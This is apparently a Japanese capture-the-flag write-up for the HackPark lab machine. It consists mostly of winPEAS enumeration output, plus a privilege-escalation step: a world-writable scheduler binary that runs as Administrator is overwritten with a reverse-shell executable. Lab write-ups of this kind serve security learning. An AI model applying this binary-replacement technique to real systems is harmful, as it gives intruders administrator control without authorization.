   =================================================================================================
    SID: S-1-5-20
   =================================================================================================
    SID: S-1-5-21-141259258-288879770-3894983326-500
   =================================================================================================
    SID: S-1-5-18
   =================================================================================================
ÉÍÍÍÍÍÍÍÍÍ͹ Cloud Credentials
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-inside-files
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Unattend Files
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for common SAM & SYSTEM backups
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for McAfee Sitelist.xml Files
ÉÍÍÍÍÍÍÍÍÍ͹ Cached GPP Passwords
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for possible regs with creds
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#inside-the-registry
    Not Found
    Not Found
    Not Found
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for possible password files in users homes
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-inside-files
ÉÍÍÍÍÍÍÍÍÍ͹ Searching for Oracle SQL Developer config files

ÉÍÍÍÍÍÍÍÍÍ͹ Slack files & directories
  note: check manually if something is found
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for LOL Binaries and Scripts (can be slow)
È  https://lolbas-project.github.io/
   [!] Check skipped, if you want to run it, please specify '-lolbas' argument
ÉÍÍÍÍÍÍÍÍÍ͹ Enumerating Outlook download files

ÉÍÍÍÍÍÍÍÍÍ͹ Enumerating machine and user certificate files

ÉÍÍÍÍÍÍÍÍÍ͹ Searching known files that can contain creds in home
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-inside-files
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for documents --limit 100--
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Office Most Recent Files -- limit 50

  Last Access Date           User                                           Application           Document
ÉÍÍÍÍÍÍÍÍÍ͹ Recent files --limit 70--
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Looking inside the Recycle Bin for creds files
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-inside-files
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Searching hidden files or folders in C:\Users home (can be slow)

     C:\Users\Default
     C:\Users\Default User
     C:\Users\Default
     C:\Users\All Users
ÉÍÍÍÍÍÍÍÍÍ͹ Searching interesting files in other users home directories (can be slow)

     Checking folder: c:\users\administrator

   =================================================================================================
     Checking folder: c:\users\jeff

   =================================================================================================
ÉÍÍÍÍÍÍÍÍÍ͹ Searching executable files in non-default folders with write (equivalent) permissions (can be slow)
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for Linux shells/distributions - wsl.exe, bash.exe

       /---------------------------------------------------------------------------------\
       |                             Do you like PEASS?                                  |
       |---------------------------------------------------------------------------------|
       |         Get the latest version    :     https://github.com/sponsors/carlospolop |
       |         Follow on Twitter         :     @hacktricks_live                        |
       |         Respect on HTB            :     SirBroccoli                             |
       |---------------------------------------------------------------------------------|
       |                                 Thank you!                                      |
       \---------------------------------------------------------------------------------/**
```

怪しげなサービスが稼働していることを確認する

```
    WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
    File Permissions: Everyone [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])
    System Scheduler Service Wrapper
```

イベントとログを見てみると、Message.exeを定期的にAdministratorアカウントで実行していることがわかる

```
c:\Program Files (x86)\SystemScheduler\Events>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\Program Files (x86)\SystemScheduler\Events
10/21/2024  06:14 AM    <DIR>          .
10/21/2024  06:14 AM    <DIR>          ..
10/21/2024  06:15 AM             1,926 20198415519.INI
10/21/2024  06:15 AM            35,917 20198415519.INI_LOG.txt
10/02/2020  02:50 PM               290 2020102145012.INI
10/21/2024  06:06 AM               186 Administrator.flg
10/21/2024  04:01 AM                 0 Scheduler.flg
10/21/2024  06:10 AM                 0 service.flg
10/21/2024  06:06 AM               449 SessionInfo.flg
10/21/2024  06:06 AM               182 SYSTEM_svc.flg
               8 File(s)         38,950 bytes
               2 Dir(s)  37,534,699,520 bytes free
type 20198415519.INI_LOG.txt
c:\Program Files (x86)\SystemScheduler\Events>type 20198415519.INI_LOG.txt
08/04/19 15:06:01,Event Started Ok, (Administrator)
08/04/19 15:06:30,Process Ended. PID:2608,ExitCode:1,Message.exe (Administrator)
08/04/19 15:07:00,Event Started Ok, (Administrator)
08/04/19 15:07:34,Process Ended. PID:2680,ExitCode:4,Message.exe (Administrator)
08/04/19 15:08:00,Event Started Ok, (Administrator)
08/04/19 15:08:33,Process Ended. PID:2768,ExitCode:4,Message.exe (Administrator)
08/04/19 15:09:00,Event Started Ok, (Administrator)
08/04/19 15:09:34,Process Ended. PID:3024,ExitCode:4,Message.exe (Administrator)
08/04/19 15:10:00,Event Started Ok, (Administrator)
08/04/19 15:10:33,Process Ended. PID:1556,ExitCode:4,Message.exe (Administrator)
08/04/19 15:11:00,Event Started Ok, (Administrator)
08/04/19 15:11:33,Process Ended. PID:468,ExitCode:4,Message.exe (Administrator)
```

Message.exeをリバースシェルで上書きする

```
c:\Program Files (x86)\SystemScheduler>copy c:\Windows\Temp\shell.exe Message.exe
Overwrite Message.exe? (Yes/No/All): yes
        1 file(s) copied.
```

しばらく待ってるとリバースシェル取得できる

後はbatの奴を送り込んだら結果見るとフラグ取れる

c:\Windows\Temp>.\winPEAS.bat
.\winPEAS.bat

            ((,.,/((((((((((((((((((((/,  */
     ,/*,..*(((((((((((((((((((((((((((((((((,
   ,*/((((((((((((((((((/,  .*//((//**, .*((((((*
   ((((((((((((((((* *****,,,/########## .(* ,((((((
   (((((((((((/* ******************/####### .(. ((((((
   ((((((..******************/@@@@@/***/###### /((((((
   ,,..**********************@@@@@@@@@@(***,#### ../(((((
   , ,**********************#@@@@@#@@@@*********##((/ /((((
   ..(((##########*********/#@@@@@@@@@/*************,,..((((
   .(((################(/******/@@@@@#****************.. /((
   .((########################(/************************..*(
   .((#############################(/********************.,(
   .((##################################(/***************..(
   .((######################################(************..(
   .((######(,.***.,(###################(..***(/*********..(
   .((######*(#####((##################((######/(********..(
   .((##################(/**********(################(**...(
   .(((####################/*******(###################.((((
   .(((((############################################/  /((
   ..(((((#########################################(..(((((.
   ....(((((#####################################( .((((((.
   ......(((((#################################( .(((((((.
   (((((((((. ,(############################(../(((((((((.
       (((((((((/,  ,####################(/..((((((((((.
             (((((((((/,.  ,*//////*,. ./(((((((((((.
                (((((((((((((((((((((((((((/
                       by carlospolop

/!\ Advisory: WinPEAS - Windows local Privilege Escalation Awesome Script
   WinPEAS should be used for authorized penetration testing and/or educational purposes only.
   Any misuse of this software will not be the responsibility of the author or of any other collaborator.
   Use it at your own networks and/or with the network owner's permission.

[*] BASIC SYSTEM INFO
 [+] WINDOWS OS
   [i] Check for vulnerabilities for the OS version with the applied patches
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits

Host Name:                 HACKPARK
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00252-70000-00000-AA886
Original Install Date:     8/3/2019, 10:43:23 AM
System Boot Time:          10/22/2024, 8:13:56 AM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2300 Mhz
BIOS Version:              Xen 4.11.amazon, 8/24/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     4,096 MB
Available Physical Memory: 3,134 MB
Virtual Memory: Max Size:  5,504 MB
Virtual Memory: Available: 4,467 MB
Virtual Memory: In Use:    1,037 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\HACKPARK
Hotfix(s):                 8 Hotfix(s) Installed.
                           [01]: KB2919355
                           [02]: KB2919442
                           [03]: KB2937220
                           [04]: KB2938772
                           [05]: KB2939471
                           [06]: KB2949621
                           [07]: KB3035131
                           [08]: KB3060716
Network Card(s):           1 NIC(s) Installed.
                           [01]: AWS PV Network Device
                                 Connection Name: Ethernet 2
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.10.0.1
                                 IP address(es)
                                 [01]: 10.10.75.215
                                 [02]: fe80::5a9:a200:3d0f:4496
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

Caption                                     Description      HotFixID   InstalledOn
http://support.microsoft.com/?kbid=2919355  Update           KB2919355  3/21/2014
http://support.microsoft.com/?kbid=2919442  Update           KB2919442  3/21/2014
http://support.microsoft.com/?kbid=2937220  Update           KB2937220  3/21/2014
http://support.microsoft.com/?kbid=2938772  Update           KB2938772  3/21/2014
http://support.microsoft.com/?kbid=2939471  Update           KB2939471  3/21/2014
http://support.microsoft.com/?kbid=2949621  Hotfix           KB2949621  3/21/2014
http://support.microsoft.com/?kbid=3035131  Security Update  KB3035131  8/5/2019
http://support.microsoft.com/?kbid=3060716  Security Update  KB3060716  8/5/2019

 [+] DATE and TIME
   [i] You may need to adjust your local date/time to exploit some vulnerability
Tue 10/22/2024
08:54 AM

 [+] Audit Settings
   [i] Check what is being logged

 [+] WEF Settings
   [i] Check where are being sent the logs

 [+] LAPS installed?
   [i] Check what is being logged

 [+] LSA protection?
   [i] Active if "1"

 [+] Credential Guard?
   [i] Active if "1" or "2"

 [+] WDigest?
   [i] Plain-text creds in memory if "1"

 [+] Number of cached creds
   [i] You need System-rights to extract them

 [+] UAC Settings
   [i] If the results read ENABLELUA REG_DWORD 0x1, part or all of the UAC components are on
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#basic-uac-bypass-full-file-system-access

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    EnableLUA    REG_DWORD    0x1

 [+] Registered Anti-Virus(AV)
ERROR:
Description = Invalid namespace

Checking for defender whitelisted PATHS
 [+] PowerShell settings
PowerShell v2 Version:

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine
    PowerShellVersion    REG_SZ    2.0

PowerShell v5 Version:

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\PowerShell\3\PowerShellEngine
    PowerShellVersion    REG_SZ    4.0

Transcriptions Settings:
Module logging settings:
Scriptblog logging settings:

PS default transcript history

Checking PS history file

 [+] MOUNTED DISKS
   [i] Maybe you find something interesting
Caption
C:

 [+] ENVIRONMENT
   [i] Interesting information?

ALLUSERSPROFILE=C:\ProgramData
APPDATA=C:\Users\Administrator\AppData\Roaming
CommonProgramFiles=C:\Program Files (x86)\Common Files
CommonProgramFiles(x86)=C:\Program Files (x86)\Common Files
CommonProgramW6432=C:\Program Files\Common Files
COMPUTERNAME=HACKPARK
ComSpec=C:\Windows\system32\cmd.exe
CurrentFolder=c:\Windows\Temp\
CurrentLine= 0x1B[33m[+]0x1B[97m ENVIRONMENT
E=0x1B[
expl=no
FP_NO_HOST_CHECK=NO
HOMEDRIVE=C:
HOMEPATH=\Users\Administrator
LOCALAPPDATA=C:\Users\Administrator\AppData\Local
LOGONSERVER=\\HACKPARK
long=false
NUMBER_OF_PROCESSORS=2
OS=Windows_NT
Path=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
Percentage=1
PercentageTrack=19
PROCESSOR_ARCHITECTURE=x86
PROCESSOR_ARCHITEW6432=AMD64
PROCESSOR_IDENTIFIER=Intel64 Family 6 Model 79 Stepping 1, GenuineIntel
PROCESSOR_LEVEL=6
PROCESSOR_REVISION=4f01
ProgramData=C:\ProgramData
ProgramFiles=C:\Program Files (x86)
ProgramFiles(x86)=C:\Program Files (x86)
ProgramW6432=C:\Program Files
PROMPT=$P$G
PSModulePath=C:\Windows\system32\WindowsPowerShell\v1.0\Modules\
PUBLIC=C:\Users\Public
SESSIONNAME=Console
SystemDrive=C:
SystemRoot=C:\Windows
TEMP=C:\Users\ADMINI~1\AppData\Local\Temp\1
TMP=C:\Users\ADMINI~1\AppData\Local\Temp\1
USERDOMAIN=HACKPARK
USERDOMAIN_ROAMINGPROFILE=HACKPARK
USERNAME=Administrator
USERPROFILE=C:\Users\Administrator
windir=C:\Windows

 [+] INSTALLED SOFTWARE
   [i] Some weird software? Check for vulnerabilities in unknow software installed
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software

Amazon
Common Files
Common Files
Internet Explorer
Internet Explorer
Microsoft.NET
SystemScheduler
Windows Mail
Windows Mail
Windows NT
Windows NT
WindowsPowerShell
WindowsPowerShell
    InstallLocation    REG_SZ    C:\Program Files (x86)\SystemScheduler\
    InstallLocation    REG_SZ    C:\Program Files (x86)\SystemScheduler\

 [+] Remote Desktop Credentials Manager
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#remote-desktop-credential-manager

 [+] WSUS
   [i] You can inject 'fake' updates into non-SSL WSUS traffic (WSUXploit)
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#wsus

 [+] RUNNING PROCESSES
   [i] Something unexpected is running? Check for vulnerabilities
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#running-processes

Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A
System                           4 N/A
smss.exe                       376 N/A
csrss.exe                      528 N/A
csrss.exe                      584 N/A
wininit.exe                    592 N/A
winlogon.exe                   620 N/A
services.exe                   676 N/A
lsass.exe                      684 SamSs
svchost.exe                    744 BrokerInfrastructure, DcomLaunch, LSM,
                                   PlugPlay, Power, SystemEventsBroker
svchost.exe                    788 RpcEptMapper, RpcSs
dwm.exe                        876 N/A
svchost.exe                    884 Dhcp, EventLog, lmhosts, Wcmsvc
svchost.exe                    912 CertPropSvc, DsmSvc, gpsvc, iphlpsvc,
                                   LanmanServer, ProfSvc, Schedule, SENS,
                                   SessionEnv, ShellHWDetection, Themes,
                                   Winmgmt
svchost.exe                    972 EventSystem, FontCache, netprofm, nsi,
                                   W32Time, WinHttpAutoProxySvc
svchost.exe                    356 CryptSvc, Dnscache, LanmanWorkstation,
                                   NlaSvc, WinRM
svchost.exe                    820 BFE, DPS, MpsSvc
spoolsv.exe                   1156 Spooler
amazon-ssm-agent.exe          1196 AmazonSSMAgent
svchost.exe                   1276 AppHostSvc
LiteAgent.exe                 1296 AWSLiteAgent
svchost.exe                   1368 TrkWks, UALSVC, UmRdpService
svchost.exe                   1384 W3SVC, WAS
WService.exe                  1432 WindowsScheduler
WScheduler.exe                1556 N/A
Ec2Config.exe                 1652 Ec2Config
WmiPrvSE.exe                  1816 N/A
svchost.exe                   2004 TermService
taskhostex.exe                2520 N/A
explorer.exe                  2588 N/A
ServerManager.exe             2968 N/A
WScheduler.exe                2032 N/A
msdtc.exe                     3016 MSDTC
w3wp.exe                      2444 N/A
cmd.exe                       2616 N/A
conhost.exe                   2204 N/A
Message.exe                   2200 N/A
cmd.exe                       2508 N/A
conhost.exe                    852 N/A
WhoAmI.exe                    2040 N/A
WhoAmI.exe                    2340 N/A
WmiPrvSE.exe                  1664 N/A
TrustedInstaller.exe           532 TrustedInstaller
TiWorker.exe                  2784 N/A
tasklist.exe                  2248 N/A

   [i] Checking file permissions of running processes (File backdooring - maybe the same files start automatically when Administrator logs in)
C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                 BUILTIN\Administrators:(I)(F)

C:\Program Files\Amazon\XenTools\LiteAgent.exe NT AUTHORITY\SYSTEM:(I)(F)
                                               BUILTIN\Administrators:(I)(F)

C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                  BUILTIN\Administrators:(I)(F)

C:\PROGRA~2\SYSTEM~1\WScheduler.exe Everyone:(I)(M)
                                    BUILTIN\Administrators:(I)(F)

C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                       BUILTIN\Administrators:(I)(F)

C:\Windows\Explorer.EXE NT SERVICE\TrustedInstaller:(F)

C:\Program Files (x86)\SystemScheduler\WScheduler.exe Everyone:(I)(M)
                                                      BUILTIN\Administrators:(I)(F)

C:\PROGRA~2\SYSTEM~1\Message.exe Everyone:(I)(M)
                                 BUILTIN\Administrators:(I)(F)

C:\Windows\SysWOW64\cmd.exe NT SERVICE\TrustedInstaller:(F)

C:\PROGRA~2\SYSTEM~1\WhoAmI.exe Everyone:(I)(M)
                                BUILTIN\Administrators:(I)(F)

C:\PROGRA~2\SYSTEM~1\WhoAmI.exe Everyone:(I)(M)
                                BUILTIN\Administrators:(I)(F)

C:\Windows\sysWOW64\wbem\wmiprvse.exe NT SERVICE\TrustedInstaller:(F)

C:\Windows\servicing\TrustedInstaller.exe NT SERVICE\TrustedInstaller:(F)

C:\Windows\winsxs\amd64_microsoft-windows-servicingstack_31bf3856ad364e35_6.3.9600.17031_none_fa50b3979b1bcb4a\TiWorker.exe NT SERVICE\TrustedInstaller:(F)

C:\Windows\SysWOW64\cmd.exe NT SERVICE\TrustedInstaller:(F)

C:\Windows\SysWOW64\Wbem\WMIC.exe NT SERVICE\TrustedInstaller:(F)

C:\Windows\SysWOW64\find.exe NT SERVICE\TrustedInstaller:(F)

C:\Windows\SysWOW64\find.exe NT SERVICE\TrustedInstaller:(F)

C:\Windows\SysWOW64\find.exe NT SERVICE\TrustedInstaller:(F)

   [i] Checking directory permissions of running processes (DLL injection)
C:\Program Files\Amazon\SSM\ NT SERVICE\TrustedInstaller:(I)(F)
                             BUILTIN\Administrators:(I)(F)
                             BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)

C:\Program Files\Amazon\Xentools\ NT SERVICE\TrustedInstaller:(I)(F)
                                  BUILTIN\Administrators:(I)(F)
                                  BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)

C:\PROGRA~2\SYSTEM~1\ Everyone:(OI)(CI)(M)
                      BUILTIN\Administrators:(I)(F)
                      BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)

C:\PROGRA~2\SYSTEM~1\ Everyone:(OI)(CI)(M)
                      BUILTIN\Administrators:(I)(F)
                      BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)

C:\Program Files\Amazon\Ec2ConfigService\ NT SERVICE\TrustedInstaller:(I)(F)
                                          BUILTIN\Administrators:(I)(F)
                                          BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)

C:\Windows\ NT SERVICE\TrustedInstaller:(F)
            BUILTIN\Administrators:(M)
            BUILTIN\Administrators:(OI)(CI)(IO)(F)

C:\Program Files (x86)\SystemScheduler\ Everyone:(OI)(CI)(M)
                                        BUILTIN\Administrators:(I)(F)
                                        BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)

C:\PROGRA~2\SYSTEM~1\ Everyone:(OI)(CI)(M)
                      BUILTIN\Administrators:(I)(F)
                      BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)

C:\Windows\SysWOW64\ NT SERVICE\TrustedInstaller:(F)
                     BUILTIN\Administrators:(M)
                     BUILTIN\Administrators:(OI)(CI)(IO)(F)

C:\PROGRA~2\SYSTEM~1\ Everyone:(OI)(CI)(M)
                      BUILTIN\Administrators:(I)(F)
                      BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)

C:\PROGRA~2\SYSTEM~1\ Everyone:(OI)(CI)(M)
                      BUILTIN\Administrators:(I)(F)
                      BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)

C:\Windows\SysWOW64\wbem\ NT SERVICE\TrustedInstaller:(F)
                          BUILTIN\Administrators:(M)
                          BUILTIN\Administrators:(OI)(CI)(IO)(F)

C:\Windows\servicing\ NT SERVICE\TrustedInstaller:(F)

C:\Windows\WinSxS\amd64_microsoft-windows-servicingstack_31bf3856ad364e35_6.3.9600.17031_none_fa50b3979b1bcb4a\ NT SERVICE\TrustedInstaller:(OI)(CI)(F)

C:\Windows\SysWOW64\ NT SERVICE\TrustedInstaller:(F)
                     BUILTIN\Administrators:(M)
                     BUILTIN\Administrators:(OI)(CI)(IO)(F)

C:\Windows\SysWOW64\wbem\ NT SERVICE\TrustedInstaller:(F)
                          BUILTIN\Administrators:(M)
                          BUILTIN\Administrators:(OI)(CI)(IO)(F)

C:\Windows\SysWOW64\ NT SERVICE\TrustedInstaller:(F)
                     BUILTIN\Administrators:(M)
                     BUILTIN\Administrators:(OI)(CI)(IO)(F)

C:\Windows\SysWOW64\ NT SERVICE\TrustedInstaller:(F)
                     BUILTIN\Administrators:(M)
                     BUILTIN\Administrators:(OI)(CI)(IO)(F)

C:\Windows\SysWOW64\ NT SERVICE\TrustedInstaller:(F)
                     BUILTIN\Administrators:(M)
                     BUILTIN\Administrators:(OI)(CI)(IO)(F)

 [+] RUN AT STARTUP
   [i] Check if you can modify any binary that is going to be executed by admin or if you can impersonate a not found binary
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#run-at-startup
                                                                BUILTIN\Administrators:(I)(OI)(CI)(F)

C:\Documents and Settings\All Users\Start Menu\Programs\Startup\desktop.ini BUILTIN\Administrators:(F)
                                                                            BUILTIN\Administrators:(I)(F)
                                                                                     BUILTIN\Administrators:(I)(F)

C:\Documents and Settings\Administrator\Start Menu\Programs\Startup NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                                                                    BUILTIN\Administrators:(OI)(CI)(F)
                                                                    HACKPARK\Administrator:(OI)(CI)(F)

C:\Documents and Settings\Administrator\Start Menu\Programs\Startup\desktop.ini NT AUTHORITY\SYSTEM:(F)
                                                                                BUILTIN\Administrators:(F)
                                                                                HACKPARK\Administrator:(F)
C:\Documents and Settings\Administrator\Start Menu\Programs\Startup\setwallpaper.lnk NT AUTHORITY\SYSTEM:(F)
                                                                                     BUILTIN\Administrators:(F)
                                                                                     HACKPARK\Administrator:(F)

                                                             BUILTIN\Administrators:(I)(OI)(CI)(F)

C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\desktop.ini BUILTIN\Administrators:(F)
                                                                         BUILTIN\Administrators:(I)(F)
                                                                                  BUILTIN\Administrators:(I)(F)

C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                                                                                     BUILTIN\Administrators:(OI)(CI)(F)
                                                                                     HACKPARK\Administrator:(OI)(CI)(F)

C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\desktop.ini NT AUTHORITY\SYSTEM:(F)
                                                                                                 BUILTIN\Administrators:(F)
                                                                                                 HACKPARK\Administrator:(F)
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\setwallpaper.lnk NT AUTHORITY\SYSTEM:(F)
                                                                                                      BUILTIN\Administrators:(F)
                                                                                                      HACKPARK\Administrator:(F)

Folder: \
Ec2ConfigMonitorTask                     N/A                    Ready

Folder: \Microsoft
INFO: There are no scheduled tasks presently available at your access level.

Folder: \Microsoft\Windows
INFO: There are no scheduled tasks presently available at your access level.

Folder: \Microsoft\Windows\.NET Framework
.NET Framework NGEN v4.0.30319           N/A                    Ready
.NET Framework NGEN v4.0.30319 64        N/A                    Ready

Folder: \Microsoft\Windows\Active Directory Rights Management Services Client
AD RMS Rights Policy Template Management N/A                    Ready

Folder: \Microsoft\Windows\AppID
SmartScreenSpecific                      N/A                    Ready

Folder: \Microsoft\Windows\Application Experience
AitAgent                                 N/A                    Ready
ProgramDataUpdater                       N/A                    Ready

Folder: \Microsoft\Windows\ApplicationData
CleanupTemporaryState                    N/A                    Ready

Folder: \Microsoft\Windows\AppxDeploymentClient

Folder: \Microsoft\Windows\Autochk
Proxy                                    N/A                    Ready

Folder: \Microsoft\Windows\CertificateServicesClient
SystemTask                               N/A                    Ready
UserTask                                 N/A                    Ready

Folder: \Microsoft\Windows\Chkdsk
ProactiveScan                            N/A                    Ready

Folder: \Microsoft\Windows\Customer Experience Improvement Program
Consolidator                             10/23/2024 12:00:00 AM Ready
KernelCeipTask                           N/A                    Ready
UsbCeip                                  N/A                    Ready

Folder: \Microsoft\Windows\Customer Experience Improvement Program\Server
ServerCeipAssistant                      10/22/2024 10:40:55 AM Ready

Folder: \Microsoft\Windows\Data Integrity Scan
Data Integrity Scan                      11/17/2024 1:58:06 PM  Ready
Data Integrity Scan for Crash Recovery   N/A                    Ready

Folder: \Microsoft\Windows\Defrag
ScheduledDefrag                          N/A                    Ready

Folder: \Microsoft\Windows\Device Setup
Metadata Refresh                         N/A                    Ready

Folder: \Microsoft\Windows\IME

Folder: \Microsoft\Windows\MemoryDiagnostic

Folder: \Microsoft\Windows\MUI
LPRemove                                 N/A                    Ready

Folder: \Microsoft\Windows\Multimedia

Folder: \Microsoft\Windows\NetCfg
BindingWorkItemQueueHandler              N/A                    Ready

Folder: \Microsoft\Windows\NetTrace
GatherNetworkInfo                        N/A                    Ready

Folder: \Microsoft\Windows\PI
Secure-Boot-Update                       N/A                    Ready
Sqm-Tasks                                N/A                    Ready

Folder: \Microsoft\Windows\PLA

Folder: \Microsoft\Windows\Plug and Play
Device Install Group Policy              N/A                    Ready
Device Install Reboot Required           N/A                    Ready
Plug and Play Cleanup                    N/A                    Ready
Sysprep Generalize Drivers               N/A                    Ready

Folder: \Microsoft\Windows\Power Efficiency Diagnostics
AnalyzeSystem                            N/A                    Ready

Folder: \Microsoft\Windows\RAC

Folder: \Microsoft\Windows\Ras
MobilityManager                          N/A                    Ready

Folder: \Microsoft\Windows\Registry
RegIdleBackup                            N/A                    Ready

Folder: \Microsoft\Windows\Server Manager
CleanupOldPerfLogs                       N/A                    Ready
ServerManager                            N/A                    Ready

Folder: \Microsoft\Windows\Servicing
StartComponentCleanup                    N/A                    Ready

Folder: \Microsoft\Windows\Shell
CreateObjectTask                         N/A                    Ready

Folder: \Microsoft\Windows\Software Inventory Logging

Folder: \Microsoft\Windows\SoftwareProtectionPlatform
SvcRestartTask                           10/29/2024 8:15:26 AM  Ready

Folder: \Microsoft\Windows\SpacePort
SpaceAgentTask                           N/A                    Ready

Folder: \Microsoft\Windows\Storage Tiers Management
Storage Tiers Management Initialization  N/A                    Ready

Folder: \Microsoft\Windows\Task Manager
Interactive                              N/A                    Ready

Folder: \Microsoft\Windows\TaskScheduler
Maintenance Configurator                 10/23/2024 1:00:00 AM  Ready
Manual Maintenance                       N/A                    Ready
Regular Maintenance                      10/23/2024 3:29:39 AM  Ready

Folder: \Microsoft\Windows\TextServicesFramework
MsCtfMonitor                             N/A                    Running

Folder: \Microsoft\Windows\Time Synchronization
SynchronizeTime                          N/A                    Ready

Folder: \Microsoft\Windows\Time Zone
SynchronizeTimeZone                      N/A                    Ready

Folder: \Microsoft\Windows\TPM
Tpm-Maintenance                          N/A                    Ready

Folder: \Microsoft\Windows\UPnP
UPnPHostConfig                           N/A                    Ready

Folder: \Microsoft\Windows\User Profile Service

Folder: \Microsoft\Windows\WDI
ResolutionHost                           N/A                    Ready

Folder: \Microsoft\Windows\Windows Error Reporting
QueueReporting                           N/A                    Ready

Folder: \Microsoft\Windows\Windows Filtering Platform
BfeOnServiceStartTypeChange              N/A                    Ready

Folder: \Microsoft\Windows\WindowsColorSystem

Folder: \Microsoft\Windows\WindowsUpdate
Scheduled Start                          N/A                    Ready

Folder: \Microsoft\Windows\Wininet
CacheTask                                N/A                    Running

Folder: \Microsoft\Windows\Workplace Join

Folder: \Microsoft\Windows\WS
WSTask                                   N/A                    Ready

 [+] AlwaysInstallElevated?
   [i] If '1' then you can install a .msi file with admin privileges ;)
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated

[*] NETWORK
 [+] CURRENT SHARES

Share name   Resource                        Remark

-------------------------------------------------------------------------------
C$           C:\                             Default share
IPC$                                         Remote IPC
ADMIN$       C:\Windows                      Remote Admin
The command completed successfully.

 [+] INTERFACES

Windows IP Configuration

   Host Name . . . . . . . . . . . . : hackpark
   Primary Dns Suffix  . . . . . . . :
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : eu-west-1.ec2-utilities.amazonaws.com
                                       eu-west-1.compute.internal

Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Description . . . . . . . . . . . : AWS PV Network Device #0
   Physical Address. . . . . . . . . : 02-BB-51-88-88-4B
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::5a9:a200:3d0f:4496%14(Preferred)
   IPv4 Address. . . . . . . . . . . : 10.10.75.215(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Lease Obtained. . . . . . . . . . : Tuesday, October 22, 2024 8:14:49 AM
   Lease Expires . . . . . . . . . . : Tuesday, October 22, 2024 9:44:53 AM
   Default Gateway . . . . . . . . . : 10.10.0.1
   DHCP Server . . . . . . . . . . . : 10.10.0.1
